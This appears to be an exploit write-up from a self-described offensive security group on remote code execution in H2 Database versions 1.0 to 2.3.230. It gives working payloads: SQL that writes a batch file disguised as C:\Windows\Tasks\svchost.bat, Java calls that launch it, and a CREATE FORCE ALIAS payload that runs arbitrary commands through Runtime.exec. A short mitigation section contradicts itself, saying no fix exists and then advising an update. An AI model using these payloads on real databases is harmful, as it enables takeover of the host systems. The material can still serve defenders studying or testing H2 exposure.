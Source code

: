 # H2 Database Remote Code Execution (RCE) - Exploit Overview

**Date:** 17/07/2024  
**Author:** ViperX Offensive Security

## Affected Versions
H2 Database versions 1.0 to 2.3.230 are vulnerable to remote code execution (RCE).

## Exploit Flow
The exploitation strategy varies based on the version of the H2 Database:

1. **For Versions < 1.4:**
    - **Step 1:** Create a 'dummy' table within the database.
    - **Step 2:** Use the `SCRIPT SIMPLE NODATA NOSETTINGS TO '{BAT_FULLPATH}'` command to write output logs to a file located at `C:\Windows\Tasks\svchost.bat`.
    - **Step 3:** Depending on the specific version, execute the `.bat` file to achieve RCE:
        - For older versions, utilize `org.h2.util.StartBrowser.openURL`.
        - For newer versions, utilize `org.h2.tools.Server.openBrowser`.

2. **For Versions ≥ 1.4:**
    - **Step 1:** Exploit the 'CREATE ALIAS' function to execute Java code directly.

## Detailed Exploit Steps

1. **Creating a Dummy Table and Writing Logs:**
    ```sql
    CREATE TABLE dummy (id INT);
    SCRIPT SIMPLE NODATA NOSETTINGS TO 'C:\Windows\Tasks\svchost.bat';
    ```

2. **Executing the Batch File:**
    - **For Older Versions:**
        ```java
        org.h2.util.StartBrowser.openURL('file:///C:/Windows/Tasks/svchost.bat');
        ```
    - **For Newer Versions:**
        ```java
        org.h2.tools.Server.openBrowser('file:///C:/Windows/Tasks/svchost.bat');
        ```

** H2DB Versions >= 1.4 . **Java Code Execution via CREATE ALIAS:**
    `CREATE FORCE ALIAS CMD_INJECT AS $$
  void pwshInject() throws Exception {
      Runtime.getRuntime().exec("%s");
  }
  $$;`

By leveraging these methods, an attacker can perform remote code execution on vulnerable H2 Database instances, potentially gaining control over the host system.

## Mitigation
Since no fixes are currently available, it is recommended to implement the following measures to protect against this vulnerability:

- Update to the latest version of H2 Database.
- Implement strict access controls to limit exposure to untrusted networks.
- Regularly audit and monitor database configurations and activity.

For further details and assistance, please contact ViperX Offensive Security.
